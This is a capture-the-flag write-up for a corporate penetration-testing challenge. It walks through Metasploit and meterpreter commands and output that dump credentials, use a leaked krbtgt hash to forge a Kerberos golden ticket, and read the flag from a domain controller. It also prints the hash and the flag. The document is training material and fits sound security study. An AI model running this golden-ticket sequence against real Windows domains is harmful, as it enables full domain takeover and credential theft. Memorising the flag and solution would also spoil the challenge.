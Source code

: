 Charlie Writeup
===================
## Category
Corporate Penetration Testing

## Question
Gain privileged access to the ECWI.CYSCA domain controller. The flag is located on C:\ of the domain controller.

## Designed Solution
Players find leaked account password hashes in madison.wilton's documents folder. They then use the krbtgt account hash to create a golden ticket and gain access to the domain controller.

## Hints Given
None

## Player Solution Comments
Only one team solved this challenge during the competition. They used the approach documented here.

## Writeup
From reading the question we know we need to gain access to the C:\ drive of the domain controller. While we now have SYSTEM level access on the HOTDESK system, that won't directly transfer to access on the domain controller. We have to propagate and privilege escalate on the network. There are many ways to do this, we look at the `LSA secrets`, dump password hashes with `hashdump`, list the available tokens with `incognito` and use `mimikatz` to dump credentials but find nothing that would give us direct access to the domain controller.

Our next step is to consider other information that could be of assistance, so we look at the `C:\Users` directory to see which other users have used this system. In meterpreter we run `meterpreter > cd C:\\Users` and then `meterpreter > ls`.

```
meterpreter > cd C:\\Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  4096  fil   2015-07-27 00:03:06 +1000  All Users
40555/r-xr-xr-x   0     dir   2009-07-14 17:18:34 +1000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 14:53:55 +1000  Default User
40555/r-xr-xr-x   0     dir   2015-07-26 23:28:23 +1000  Public
40777/rwxrwxrwx   0     dir   2015-07-26 23:06:28 +1000  administrator.ECWI
100666/rw-rw-rw-  174   fil   2009-07-14 14:41:57 +1000  desktop.ini
40777/rwxrwxrwx   0     dir   2015-07-26 23:17:14 +1000  jasper.west
40777/rwxrwxrwx   0     dir   2015-08-09 02:47:53 +1000  madison.wilton
40777/rwxrwxrwx   0     dir   2015-09-09 01:14:11 +1000  sam.rouse
```

From the directory listing we can see a number of default users in addition to `administrator.ECWI`, `jasper.west`, `madison.wilton` and `sam.rouse`.

We search for any interesting information or documents in the user folders and we find some documents in `madison.wilton`'s Documents folder named `ECWI - Password Strength Audit`. It looks like the document was authored by our old friend Sarah Burns of Fortress Certifications, They seem to have performed an audit of the domain user passwords for the Initiative.

![Password Audit Document](screenshots/passwordaudit.png)

Reading further we see that there is a comment about the `recovered passwords being reset`, and later it states that `these accounts are marked with an asterisk`. To confirm the passwords have been reset we attempt to pass the administrator's hash to the domain controller and access is denied.

We then notice that the `krbtgt` account hash password `does not have a asterisk` next to it, so perhaps it has not been reset. We should be able to use this hash to generate a kerberos 'golden ticket' for an account of our choosing.

![Password Audit Document KRBTGT](screenshots/passwordaudit_krbtgt.png)

To achieve this, in metasploit we use `post/windows/escalate/golden_ticket` we set `domain` to `ECWI`, set `SESSION` to `2` to use it in our SYSTEM session, we set `USE` to `true` to use it immediately and we set `KRBTGT_HASH` to the NTLM component of the recovered hash.

```
msf post(golden_ticket) > set DOMAIN ECWI
DOMAIN => ECWI
msf post(golden_ticket) > set KRBTGT_HASH CFFB8CEED41946F5FF824620970ADEE2
KRBTGT_HASH => CFFB8CEED41946F5FF824620970ADEE2
msf post(golden_ticket) > set USE true
USE => true
msf post(golden_ticket) > set SESSION 2
SESSION => 2
msf post(golden_ticket) > exploit

[*] Obtaining ECWI SID...
[+] Found ECWI SID: S-1-5-21-129915638-3978508280-3050188809
[*] Looking up Domain Administrator account...
[+] Found User: Administrator
[*] Creating Golden Ticket for ECWI\Administrator...
[+] Golden Ticket Obtained!
[*] Ticket saved to /root/.msf4/loot/20151102140311_default_fd00deadbeef103_golden.ticket_478728.bin
[*] Attempting to use the ticket...
[+] Kerberos ticket applied successfully
[*] Post module execution completed
msf post(golden_ticket) >
```

This module returns successfully so we switch into our SYSTEM session and use `klist` to confirm we have a Kerberos ticket for the domain administrator. We see that there is a ticket for `Administrator @ ECWI`, so we perform a directory listing of `C:\` on the domain controller and then `type` the flag file to get the  flag.

```
msf post(golden_ticket) > sessions

Active sessions
===============

  Id  Type                   Information                    Connection
  --  ----                   -----------                    ----------
  1   meterpreter x86/win32  ECWI\jasper.west @ HOTDESK     192.168.5.100:443 -> 172.16.5.30:50552 (fd00:dead:beef::103)
  2   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ HOTDESK  127.0.0.1:58486 -> 127.0.0.1:4445 (127.0.0.1)

msf post(golden_ticket) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 2756 created.
Channel 15 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\madison.wilton\Documents>klist
klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>	Client: Administrator @ ecwi.cysca
	Server: krbtgt/ecwi.cysca @ ecwi.cysca
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
	Start Time: 11/2/2015 14:20:36 (local)
	End Time:   11/2/2025 14:20:36 (local)
	Renew Time: 11/2/2035 14:20:36 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)

C:\Users\madison.wilton\Documents>dir \\ECWIDC\C$
dir \\ECWIDC\C$
 Volume in drive \\ECWIDC\C$ has no label.
 Volume Serial Number is 7AD2-2218

 Directory of \\ECWIDC\C$

27/07/2015  12:46 AM    <DIR>          Datastore
15/09/2015  12:48 PM                38 flag.txt
14/07/2009  02:20 PM    <DIR>          PerfLogs
14/07/2015  12:52 AM    <DIR>          Program Files
14/07/2015  12:52 AM    <DIR>          Program Files (x86)
02/07/2015  03:57 AM    <DIR>          Users
24/09/2015  11:41 AM    <DIR>          Windows
               1 File(s)             38 bytes
               6 Dir(s)  23,769,833,472 bytes free

C:\Users\madison.wilton\Documents>type \\ECWIDC\C$\flag.txt
type \\ECWIDC\C$\flag.txt
FLAG{82B3D4698CE6DB33953D4C27C7861621}
```
